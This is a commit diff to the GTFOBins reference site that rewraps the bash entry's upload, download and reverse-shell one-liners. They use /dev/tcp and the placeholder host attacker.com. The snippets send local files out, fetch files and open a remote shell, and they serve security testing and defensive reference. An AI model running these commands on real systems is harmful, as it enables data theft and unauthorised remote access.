

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide. Shown: the whole page at 84% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Wrapping bash commands

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -9,33 +9,33 @@ functions:
   upload:
     - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_send
-        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_send
+        bash -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
     - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_send
-        cat $LFILE > /dev/tcp/$RHOST/$RPORT
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_send
+        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
   download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_get
-        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_get
+        bash -c '(echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d \"\r\")" != "" ]; do read i; done; cat) > $LFILE'
     - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
       code: |-
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_get
-        cat < /dev/tcp/$RHOST/$RPORT > $LFILE
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_get
+        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
   reverse-shell:
     - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
+        export RHOST=attacker.com
+        export RPORT=12345
+        bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
 ---
```
